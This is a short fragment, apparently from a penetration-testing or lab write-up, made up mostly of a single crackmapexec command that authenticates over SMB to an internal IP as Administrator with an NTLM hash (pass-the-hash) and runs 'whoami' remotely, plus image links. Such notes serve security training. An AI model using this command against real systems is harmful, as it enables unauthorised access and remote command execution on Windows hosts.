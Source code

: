 ```bash
crackmapexec smb 10.2.23.202 -u Administrator -H "e3c61a68f1b89ee6c8ba9507378dc88d" -x "whoami"
```

![](assets/image-20230318112609267.png)

------

